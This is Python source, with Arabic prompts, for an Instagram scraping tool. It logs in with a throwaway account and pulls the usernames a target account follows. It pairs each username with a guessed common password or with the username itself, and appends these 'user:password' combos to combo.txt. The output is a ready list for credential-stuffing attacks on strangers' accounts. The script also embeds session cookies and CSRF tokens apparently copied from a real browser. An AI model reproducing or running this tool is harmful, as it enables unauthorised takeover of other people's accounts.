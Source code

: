 import requests
from user_agent import generate_user_agent
import os
import datetime
from uuid import uuid4
uid = str(uuid4())
import random
os.system('clear')
B="\033[1;30m" # Black
R="\033[1;31m" # Red
G="\033[1;32m" # Green
Y="\033[1;33m" # Yellow
Bl="\033[1;34m" # Blue
P="\033[1;35m" # Purple
C="\033[1;36m" # Cyan
W="\033[1;37m" # White
H="\x1b[38;5;208m" #
M = '\x1b[1;37m' 

	   
                       

gg = 0
listoo = ['HI']    
            
linux = 'clear'
windows = 'cls'
print('') 
username = str(input(f"{H} «: يــــوزر حسابك الوهمي [=]{C}"))
print('')
password = str(input(f"{H}   «: باسورد حسابك الوهمي [=]{C}"))
print('')
[linux, windows][os.name == 'nt']
url ='https://b.i.instagram.com/api/v1/accounts/login/'
headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
  
  
data = {
  'uuid':uid, 
  'password':password, 
  'username':username, 
  'device_id':uid, 
  'from_reg':'false', 
  '_csrftoken':'missing', 
  'login_attempt_countn':'0'
 }		
k = requests.post(url,headers=headers,data=data)
if ('"logged_in_user"') in  k.text or 'userId' in k.text:
	print(f"{Y} تسجيل دخول ناجح✔️")
	print('')
	
	([linux, windows][os.name == 'nt'])
	sessionid = k.cookies['sessionid']

user = str(input(f"{H}    «: يوزر تسحب منه لسته [=]{C}"))
gg = 0
listoo = ['HI']
def fg(id):
    global gg
    url = f'https://i.instagram.com/api/v1/friendships/{id}/following/?count=200'
    headers = {
        'Accept': '*/*',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'en-US,en;q=0.9',
        'Cookie': f'mid=Y3bGYwALAAHNwaKANMB8QCsRu7VA; ig_did=092BD3C7-0BB2-414B-9F43-3170EAED8778; ig_nrcb=1; shbid=1685054; shbts=1675191368.6684434090; rur=CLN; ig_direct_region_hint=ATN; csrftoken=gLlFX76z8qqwDgmh8ZIp3uFhAeX4zKdO; ds_user_id=921803283; sessionid={sessionid}',
        'Sec-Ch-Prefers-Color-Scheme': 'dark',
        'Sec-Ch-Ua': '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
        'Sec-Ch-Ua-Full-Version-List': '"Not.A/Brand";v="8.0.0.0", "Chromium";v="114.0.5735.201", "Microsoft Edge";v="114.0.1823.67"',
        'Sec-Ch-Ua-Mobile': '?0',
        'Sec-Ch-Ua-Platform': '"Windows"',
        'Sec-Ch-Ua-Platform-Version': '"15.0.0"',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.67',
        'X-Asbd-Id': '129477',
        'X-Csrftoken': 'gLlFX76z8qqwDgmh8ZIp3uFhAeX4zKdO',
        'X-Ig-App-Id': '936619743392459',
        'X-Ig-Www-Claim': 'hmac.AR0g7ECdkTdrXy37TE9AoSnMndccWbB1cqrccYOZSLfcb8sd',
        'X-Requested-With': 'XMLHttpRequest',
    } 
    r = requests.get(url,headers=headers)
    print()
    if '{"message":"","spam":true,"status":"fail"}' in r.text:
        exit('block')
    
    for i in r.json()['users']:
        gg+=1
        userL = i['username']
        pas= [
                  "123456",
    "12345@@",
     userL,
    "qwerqwer",
    "Aa1234",
    "00998877",
    "qqwweerr",
    "1q2w3e4r",
    "1234567",
    "12345678",
    "098765",
    "qwertyuiop",
    "11223344",
    "1122334455",
    "qwer1234",
    "password",
    "mmnnbbvv",
    "ppooiiuu",
    "12345a",
    "123456789"
]

  
              
                
        pasw= random.choice(pas)
        print(f'{Y}{gg} {M}» {H}{userL} / {pasw}')
        open("combo.txt", "a").write(f'{userL}:{pasw}\n')
    if 'HI' in listoo:
        try:
            m_id=r.json()['next_max_id']
        except KeyError:
            exit()
        for i in range(9999):
            r = requests.get(f'https://i.instagram.com/api/v1/friendships/{id}/following/?count=200&max_id='+m_id,headers=headers)
            if '{"message":"","spam":true,"status":"fail"}' in r.text:
                exit('block')
            try:
                for i in r.json()['users']:
                    gg+=1
                    userL = i["username"]
                    pas= [
                  "123456",
    "12345@@",
     user,
    "qwerqwer",
    "Aa1234",
    "00998877",
    "qqwweerr",
    "1q2w3e4r",
    "1234567",
    "12345678",
    "098765",
    "qwertyuiop",
    "11223344",
    "1122334455",
    "qwer1234",
    "password",
    "mmnnbbvv",
    "ppooiiuu",
    "12345a",
    "123456789"
]

  
              
                    pasw= random.choice(pas)


                    print(f'{Y}{gg} {M}» {H}{userL} / {pasw}')
                    open("combo.txt", "a").write(f'{userL}:{pasw}\n')
                try:
                    m_id=r.json()['next_max_id']
                except:
                    break
            except:
                if 'challenge' in r.text:
                    break
                else:
                    continue
    else:pass
    exit()	
    
rs_id = requests.get("https://i.instagram.com/api/v1/users/web_profile_info/?username=%s"%(user),headers={
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9',
    'Cookie': f'mid=Y3bGYwALAAHNwaKANMB8QCsRu7VA; ig_did=092BD3C7-0BB2-414B-9F43-3170EAED8778; ig_nrcb=1; shbid=1685054; shbts=1675191368.6684434090; rur=CLN; ig_direct_region_hint=ATN; csrftoken=gLlFX76z8qqwDgmh8ZIp3uFhAeX4zKdO; ds_user_id=921803283; sessionid={sessionid}',
    'Sec-Ch-Prefers-Color-Scheme': 'dark',
    'Sec-Ch-Ua': '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    'Sec-Ch-Ua-Full-Version-List': '"Not.A/Brand";v="8.0.0.0", "Chromium";v="114.0.5735.201", "Microsoft Edge";v="114.0.1823.67"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Sec-Ch-Ua-Platform-Version': '"15.0.0"',
    'Sec-Fetch-Dest': 'empty',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Site': 'same-origin',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.67',
    'X-Asbd-Id': '129477',
    'X-Csrftoken': 'gLlFX76z8qqwDgmh8ZIp3uFhAeX4zKdO',
    'X-Ig-App-Id': '936619743392459',
    'X-Ig-Www-Claim': 'hmac.AR0g7ECdkTdrXy37TE9AoSnMndccWbB1cqrccYOZSLfcb8sd',
    'X-Requested-With': 'XMLHttpRequest',
});jsn3=rs_id.json()['data']['user']
id_tr = jsn3['id']
print('')


	   
    
    
         

fg(id_tr)
